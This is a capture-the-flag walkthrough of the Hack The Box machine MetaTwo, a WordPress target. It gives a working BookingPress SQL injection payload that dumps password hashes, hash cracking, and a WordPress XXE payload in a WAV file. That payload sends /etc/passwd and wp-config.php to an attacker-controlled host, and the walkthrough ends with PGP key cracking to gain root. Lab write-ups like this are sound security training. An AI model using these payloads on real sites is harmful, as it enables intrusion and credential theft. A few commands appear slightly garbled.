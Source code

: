 ![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/636012f7eac0b2f08c89cff8_MetaTwo.webp)
## Nmap

Nmap shows only 3 open ports:
21/tcp FTP
22/tcp SSH
80/tcp HTTP

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/636014f4a4513b509d36a55b_nmap.webp)

## Gobuster

/wp-admin
/wp-content
/wp-includes
/xmlrpc.php

## WP-Scan

We are dealing with a WordPress blog.
Let's scan it with WPScan, starting with:

```sh
wpscan --url http://metapress.htb --enumerate u
```


![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/636017e15544726485e8c6bb_wpsca.webp)![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/63601989313efc2775186b2d_wpscan_users.webp)

From the homepage, **click on the blog link** to be redirected to the
**/events/** page.

In the Network section of the developer tools, we discover the name of the
plugin used:
**bookingpress ver=1.0.10**

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/63601b7a663cb07213501a01_wpscan_plugins_booking_version.webp)

## CVE-2022-0739

After a brief Google search for the **BookingPress** plugin, we find this
link:
[wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357  
](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)
**BookingPress < 1.0.11 - Unauthenticated SQL Injection**

Following the website's guidelines for vulnerability explanation, we go to
/events/ and look for the value "**wp_nonce**" in the developer tools.

To obtain the necessary information (user and password for the login page), we
need to modify the string suggested by wpscan.com slightly to exploit the
vulnerability.

- We can follow this guide on SQL UNION INJECTION:
https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

This will give us the following command:

```sh
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data
'action=bookingpress_front_get_category_services&_wpnonce=33ad3b4921&category_id=33&total_service=-7502)
UNION ALL SELECT
group_concat(user_login),group_concat(user_pass),@@version_compile_os,1,2,3,4,5,6
from wp_users-- -'
```


This command will result in:
```json
[{"bookingpress_service_id":"admin,manager","bookingpress_category_id":"$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.,$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70","bookingpress_service_name":"debian-
linux-
gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-
content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-
img.jpg"}]
```

This will yield two hashes:

```
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
```

`$P$ `is a type of MD5 Hash used by WordPress, and we can crack it with **hashcat**:
```sh
hashcat -m 400 -a 0 $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
/usr/share/wordlists/rockyou.txt$P$B4aNM28N0E.tMy
```

**Login nella WP** dashboard con le credenziali: manager:p###############r

In the home directory, we find an interesting folder, ".passpie," and inside
".passpie," a file, ".keys."

### XXE CVE-2021-29447

After logging in, you will find a **basic Dashboard** with the ability to **upload files**.

We can't upload the typical PHP reverse shell file to gain a foothold because the system doesn't accept this file type.
Renaming it or changing header request parameters in Burp Suite doesn't work either.

We know that this blog is using WordPress version 5.6 (you can verify this information using WPScan or Wappalyzer). We found on Google that **this version is vulnerable to the XXE CVE-2021-29447**.

Below are some useful links for the exploit and to understand how this vulnerability works:

- [https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)
- [https://github.com/AssassinUKG/CVE-2021-29447](https://github.com/AssassinUKG/CVE-2021-29447)
- [https://github.com/motikan2010/CVE-2021-29447](https://github.com/motikan2010/CVE-2021-29447)
- [https://www.youtube.com/watch?v=tE8Smz1Jvb8](https://www.youtube.com/watch?v=tE8Smz1Jvb8)

#### Step 1:

Let's create a .wave file with an iXML payload injected:

```sh
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://$IP:$PORT/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

#### Step 2:

Now, create a file named "poc.dtd." This file will be called by the payload you upload to WordPress.

```bash
vim poc.dtd <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://$IP:$PORT/?p=%file;'>"
```
#### Step 3:

Now, you need to run a PHP server that will listen. Use the port chosen in the previous payload.

```sh
php -S 0.0.0.0:$PORT
```
#### Step 4:

Proceed with the upload of the "payload.wav" file to WordPress.

Once the upload is complete, your listening server will respond with base64-encoded strings from the file you requested to read in the payload (in this example, /etc/passwd). Decode the string as follows:

```sh
echo -en {base64_string} | base64 -d
```

![Base64 Encoded Password](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360ae4a0d267a68e0cf7562_base64_encoded_passwd.webp)

We immediately notice that in the `/etc/passwd` file, there is a username:

jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash

Now, let's attempt to gather more information about the database by referencing the `/wp-config.php` file. To do this, we'll modify the "poc.dtd" file as follows:

```xml
<!ENTITY % file SYSTEM
"php://filter/zlib.deflate/read=convert.base64-encode/resource=../wp-config.php">  
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM
'http://10.10.14.26:8081/?p=%file;'>" >
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360b02d3abe6310306ef9f0_wp-config.webp)

Perfect. We've managed to obtain the information we were looking for. We now have two sets of credentials, one for the MySQL database and one for FTP.

We've already seen that the FTP port 21 is open, but not for anonymous connections. Now that we have the username and password, let's connect!

### FTP

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360b1e73abe6322116f1212_ftp_connect.webp)

Within the FTP, we find two directories: **blog** and **mailer**. Let's search for any hidden credentials to access SSH.

In the **mailer** directory, let's download and open the file "**send_email.php**" where we'll find **user and password** for our friend "jnelson".

### SSH

Finally, we can connect via SSH using the recently found credentials. Once connected, we can immediately retrieve the **user.txt** file.

Now, we need to figure out how to elevate our privileges to root.

Within the home directory, we find an interesting folder called "**.passpie**." Inside **/.passpie/**, there is a file called "**.keys**."

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360b4f8adbd3b439a7b40cf_passpie.webp)

Passpie, as described on its [official website](https://passpie.readthedocs.io/en/latest/), is a command-line tool for managing passwords from the terminal.

Inside the **.keys** file, you'll discover two **PGP (Pretty Good Privacy) keys**: a Public key and a Private key.

### GPG2JOHN

We will use **John the Ripper** to crack the PGP key. However, before we proceed, we need to convert the PGP key into a format that John can crack:

```sh
gpg2john pgp.key > key.hash
```

Now, let's crack the hash using "John":
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt 01.hash
```

![Cracking the Key](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360b996d311531cf01248bb_crack_key.webp)

Return to the **victim machine**, execute these commands, and we'll achieve root access:
```sh
passpie copy ssh --to stdout $ su
```

![Root Access](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360ba1d82ec266aa7cc499a_root.webp)